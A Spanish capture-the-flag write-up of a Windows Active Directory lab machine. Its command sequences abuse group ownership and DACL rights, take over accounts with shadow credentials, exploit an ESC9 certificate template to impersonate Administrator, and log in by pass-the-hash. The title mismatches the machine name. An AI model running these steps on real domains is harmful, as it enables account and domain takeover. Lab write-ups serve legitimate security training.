



# Resolución maquina voleur

**Autor:** PepeMaquina  
**Fecha:** 29 de Diciembre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Windows  
**Tags:** Bloodhound, WriteOwner, ADCS.

---
## Imagen de la Máquina

*Imagen: Certified.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo del dominio con rustscan para identificar servicios expuestos:
~~~ bash
rustscan -a 10.129.231.186 --ulimit 4000 -- -A -sS -Pn -oN rustscan_initial.txt
~~~
Aprovechando esto realiza un escaneo automático y detallado de puertos abiertos:
~~~ bash
Open 10.129.231.186:53
Open 10.129.231.186:88
Open 10.129.231.186:135
Open 10.129.231.186:139
Open 10.129.231.186:389
Open 10.129.231.186:445
Open 10.129.231.186:464
Open 10.129.231.186:593
Open 10.129.231.186:636
Open 10.129.231.186:3268
Open 10.129.231.186:3269
~~~
### Enumeración de Servicios

~~~bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-12-30 06:48:01Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:   ac8a:4187:4d19:237f:7cfa:de61:b5b2:941f
| SHA-1: 85f1:ada4:c000:4cd3:13de:d1c2:f3c6:58f7:7134:d397
| -----BEGIN CERTIFICATE-----
| MIIGBjCCBO6gAwIBAgITeQAAAASyK000VBwyGAAAAAAABDANBgkqhkiG9w0BAQsF
| <SNIP>
| piE6bLwDeUY3DQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-12-30T06:49:29+00:00; +7h00m01s from scanner time.
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:   ac8a:4187:4d19:237f:7cfa:de61:b5b2:941f
| SHA-1: 85f1:ada4:c000:4cd3:13de:d1c2:f3c6:58f7:7134:d397
| -----BEGIN CERTIFICATE-----
| MIIGBjCCBO6gAwIBAgITeQAAAASyK000VBwyGAAAAAAABDANBgkqhkiG9w0BAQsF
| <SNIP>
| piE6bLwDeUY3DQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-12-30T06:49:29+00:00; +7h00m01s from scanner time.
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-30T06:49:29+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:   ac8a:4187:4d19:237f:7cfa:de61:b5b2:941f
| SHA-1: 85f1:ada4:c000:4cd3:13de:d1c2:f3c6:58f7:7134:d397
| -----BEGIN CERTIFICATE-----
| MIIGBjCCBO6gAwIBAgITeQAAAASyK000VBwyGAAAAAAABDANBgkqhkiG9w0BAQsF
| <SNIP>
| piE6bLwDeUY3DQ==
|_-----END CERTIFICATE-----
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:   ac8a:4187:4d19:237f:7cfa:de61:b5b2:941f
| SHA-1: 85f1:ada4:c000:4cd3:13de:d1c2:f3c6:58f7:7134:d397
| -----BEGIN CERTIFICATE-----
| MIIGB5ObPz6JdFT/dlXAyZkmylijfMNbJ6x22hgI
| <SNIP>
| piE6bLwDeUY3DQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-12-30T06:49:28+00:00; +7h00m01s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=12/29%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69531388%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=U)
SEQ(SP=105%GCD=1%ISR=105%TI=I%II=I%SS=S%TS=U)
OPS(O1=M552NW8NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW8NNS%O6=M552NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 47015/tcp): CLEAN (Timeout)
|   Check 2 (port 35180/tcp): CLEAN (Timeout)
|   Check 3 (port 24870/udp): CLEAN (Timeout)
|   Check 4 (port 11397/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-12-30T06:48:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   154.05 ms 10.10.14.1 (10.10.14.1)
2   154.14 ms 10.129.231.186 (10.129.231.186)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:49
Completed NSE at 18:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:49
Completed NSE at 18:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:49
Completed NSE at 18:49, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.51 seconds
           Raw packets sent: 95 (7.888KB) | Rcvd: 40 (2.356KB)
~~~
Se puede ver que es un AD, esto esta mas que claro porque se puede ver el servicio kerberos en el puerto 88.
### Enumeración de nombre del dominio
En esta ocasión se nos otorgo credenciales para poder ingresar o realizar la enumeración del dominio, estas son "Username: judith.mader Password: judith09".
~~~ bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ sudo netexec smb 10.129.231.186 -u users -p pass 
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                           
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
~~~
Esto es importante para enumerar el nombre del dominio, nombre del DC, con esta informacion se puede agregar al "/etc/hosts"
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ cat /etc/hosts | grep 10.129.231
10.129.231.186 certified.htb dc01 dc01.certified.htb
~~~
Para tener una mejor referencia, se procedio a enumerar a todos los usuario existentes en el dominio.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ sudo netexec smb 10.129.231.186 -u users -p pass --users 
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                                                                                                                                        
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                 
SMB         10.129.231.186  445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain                                                                                                                                                    
SMB         10.129.231.186  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                                                                  
SMB         10.129.231.186  445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.129.231.186  445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.129.231.186  445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.129.231.186  445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.129.231.186  445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.129.231.186  445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.129.231.186  445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.129.231.186  445    DC01             [*] Enumerated 9 local users: CERTIFIED
~~~

### BloodHound Enumeración
Despues de intentar enumerar manualmente, no se pudo encontrar algo importante, por lo que se procedio a enumerar todo por bloodhound.
***NOTA: Para usar bloodhound y cualquier servicio, esto usa kerberos por detras, asi que siempre se debe configurar la hora para que este sincronizado con el servidor "sudo ntpdate -u 10.129.231.186"***
~~~
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ bloodhound-python -u 'judith.mader' -p 'judith09' -c All -d certified.htb -ns 10.129.231.186 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 23S
INFO: Compressing output into 20251230021303_bloodhound.zip
~~~
Al cargar todo los archivos json en "BloodHound-CE" se puede ver que el usuario al que tenemos acceso tiene permisos sobre el grupo "MANAGEMENT" y este a su vez tiene al usuario "management_svc" que tiene permisos "GenericAll" sobre el usuario "CA_OPERATOR", por lo que esa posiblemente sea la ruta a la que se debe seguir.

Asi que siguiendo esta guia, con el usuario que tengo primero debo de agregarlo al grupo "MANAGEMENT" para realizar un ataque "certipy shadow" y obtener el hash NTLM de "Managenent_svc".
Para ello primero se debe cambiar las propiedades de propietarios del grupo.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ impacket-owneredit -action write -new-owner 'judith.mader' -target 'MANAGEMENT' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
~~~
Ahora con esto se debe de cambiar los permisos del grupo para poder escribir sobre ella.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'      
/home/kali/.local/bin/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/home/kali/.local/bin/dacledit.py:110: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',
/home/kali/.local/bin/dacledit.py:111: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-555': 'BUILTIN\Remote Desktop Users',
/home/kali/.local/bin/dacledit.py:112: SyntaxWarning: invalid escape sequence '\I'
  'S-1-5-32-557': 'BUILTIN\Incoming Forest Trust Builders',
/home/kali/.local/bin/dacledit.py:114: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-558': 'BUILTIN\Performance Monitor Users',
/home/kali/.local/bin/dacledit.py:115: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-559': 'BUILTIN\Performance Log Users',
/home/kali/.local/bin/dacledit.py:116: SyntaxWarning: invalid escape sequence '\W'
  'S-1-5-32-560': 'BUILTIN\Windows Authorization Access Group',
/home/kali/.local/bin/dacledit.py:117: SyntaxWarning: invalid escape sequence '\T'
  'S-1-5-32-561': 'BUILTIN\Terminal Server License Servers',
/home/kali/.local/bin/dacledit.py:118: SyntaxWarning: invalid escape sequence '\D'
  'S-1-5-32-562': 'BUILTIN\Distributed COM Users',
/home/kali/.local/bin/dacledit.py:119: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-569': 'BUILTIN\Cryptographic Operators',
/home/kali/.local/bin/dacledit.py:120: SyntaxWarning: invalid escape sequence '\E'
  'S-1-5-32-573': 'BUILTIN\Event Log Readers',
/home/kali/.local/bin/dacledit.py:121: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-574': 'BUILTIN\Certificate Service DCOM Access',
/home/kali/.local/bin/dacledit.py:122: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-575': 'BUILTIN\RDS Remote Access Servers',
/home/kali/.local/bin/dacledit.py:123: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-576': 'BUILTIN\RDS Endpoint Servers',
/home/kali/.local/bin/dacledit.py:124: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-577': 'BUILTIN\RDS Management Servers',
/home/kali/.local/bin/dacledit.py:125: SyntaxWarning: invalid escape sequence '\H'
  'S-1-5-32-578': 'BUILTIN\Hyper-V Administrators',
/home/kali/.local/bin/dacledit.py:126: SyntaxWarning: invalid escape sequence '\A'
  'S-1-5-32-579': 'BUILTIN\Access Control Assistance Operators',
/home/kali/.local/bin/dacledit.py:127: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20251230-034538.bak
[*] DACL modified successfully!
~~~
Con esto todo ya se tiene permiso para agregar al usuario "judith" al grupo "MANAGEMENT".
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ bloodyAD --host 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' add groupMember 'MANAGEMENT' 'judith.mader'
[+] judith.mader added to MANAGEMENT
~~~
Con acceso al grupo, se puede realizar un ataque con certipy para obtener el hash NTLM del usuario "management_svc" ya que se envuentra dentro del grupo.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ certipy-ad shadow auto -u 'judith.mader@certified.htb' -p 'judith09' -account 'management_svc' -dc-ip 10.129.231.186
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5e8895ae-5914-452d-22f7-a0fc48f027e2'
[*] Adding Key Credential with device ID '5e8895ae-5914-452d-22f7-a0fc48f027e2' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '5e8895ae-5914-452d-22f7-a0fc48f027e2' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Wrote credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
~~~
***NOTA: Algo que me percate, es que al realizar el escaneo no se vio ningun puerto de administracion remota como winrm o rdp, pero viendo en bloodhound se ve un grupo de acceso remoto, pero al probar con winrm parece si tener efecto***

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso winrm mediante el usuario "management_svc" se puede ver la bandera.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ evil-winrm -i 10.129.231.186 -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\management_svc> cd desktop
*Evil-WinRM* PS C:\Users\management_svc\desktop> type user.txt
<Encuentre su propia user flag>
~~~
***NOTA: Algo que  veo y se puede vulnerar, es que se ve "Microsoft Edge.lnk" en desktop, en la vida real puede que aparezca como algo normal pero en maquinas como hackthebox no es normal verlas, asi que esto se puede explotar con un dpapi si encontramos credenciales***

---
## Escalada de Privilegios
Como se pudo ver al principio, existe un usuario "CA_OPERATOR", esto da lugar a que el dominio presenta ADCS, por lo que siempre que se ve ello es buena practica buscar algun certificado vulnerable.
### Pivoting usuario CA_OPERATOR
Primero se debe saltar al usuario "CA_OPERATOR" que es el mas probable que tenga acceso a los certificados. Esto se puede hacer igual que el usuario anterior y obtener su hash NTLM.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ certipy-ad shadow auto -u 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -account 'CA_OPERATOR' -dc-ip 10.129.231.186
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd1c19186-b578-fbc7-8cdc-9f7f29731d53'
[*] Adding Key Credential with device ID 'd1c19186-b578-fbc7-8cdc-9f7f29731d53' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'd1c19186-b578-fbc7-8cdc-9f7f29731d53' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_operator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_operator.ccache'
[*] Wrote credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
~~~

### Busqueda de vulnerabilidades en certificados
Con acceso al nuevo usuario se puede buscar certificados vulnerables.
~~~bash
┌──(kali㉿kali)-[~/htb/certified/content/bloodhound]
└─$ certipy-ad find -u 'CA_OPERATOR' -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -target 10.129.231.186 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
~~~
Como se puede ver, esto tiene una vulnerabilidad "ESC9", asi que primero se debe buscar como aprovecharlo, para ello se tiene la guía definitiva del mismo "Ly4k" (https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu) y tambien como guía otra (https://www.hackingarticles.in/adcs-esc9-no-security-extension/).

### ESC9
Como se puede ver en las guias, esto se parece casi al 100% al caso de la maquina, por ello se replica la guia, primero se debe ver a quien pertenece la upn actual con mi usuario.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ certipy-ad account \
    -u 'CA_OPERATOR@certified.htb' -hashes 'b4b86f45c6018f1b664f70805f45d8f2' \
    -dc-ip '10.129.231.186' -user 'CA_OPERATOR' \  
    read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_operator':
    cn                                  : operator ca
    distinguishedName                   : CN=operator ca,CN=Users,DC=certified,DC=htb
    name                                : operator ca
    objectSid                           : S-1-5-21-729746778-2675978091-3820388244-1106
    sAMAccountName                      : ca_operator
    userPrincipalName                   : ca_operator@certified.htb
    userAccountControl                  : 66048
    whenCreated                         : 2024-05-13T15:32:03+00:00
    whenChanged                         : 2025-12-30T08:54:24+00:00
~~~
Actualmente pertence al "CA_Opertator".
Por ello ahora se modifica la UPN a administrator que es lo mas normal, pero utilizando diferentes usuarios.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ certipy-ad account update -u 'MANAGEMENT_SVC@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'CA_OPERATOR' -upn Administrator -dc-ip 10.129.231.186
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
~~~
Asi cambiamos el principal name a Administrator y podemos obtener un template como el usuario administrator.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ certipy-ad req -u 'CA_OPERATOR@certified.htb' -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.168
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The resolution lifetime expired after 5.403 seconds: Server Do53:10.129.231.168@53 answered The DNS operation timed out.; Server Do53:10.129.231.168@53 answered The DNS operation timed out.; Server Do53:10.129.231.168@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
~~~
En este punto, antes de sacar el hash NTLM de administrator, primero cambiamos la UPN al usuario original.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ certipy-ad account update -u 'MANAGEMENT_SVC@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'CA_OPERATOR' -upn 'CA_OPERATOR@certified.htb' -dc-ip 10.129.231.186
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : CA_OPERATOR@certified.htb
[*] Successfully updated 'ca_operator'
~~~
Con ello finalmente se puede impersonar al usuario Administrator y obtener su hash NTLM.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ certipy-ad auth \             
    -dc-ip '10.129.231.186' -pfx 'administrator.pfx' \
    -username 'administrator' -domain 'certified.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Asi que ahora con el hash NTLM de administrator se puede iniciar sesion por winrm.
~~~bash
┌──(kali㉿kali)-[~/htb/certified]
└─$ evil-winrm -i 10.129.231.186 -u "administrator" -H '0d5b49608bbce1751f708748f67e2d34'
                                        
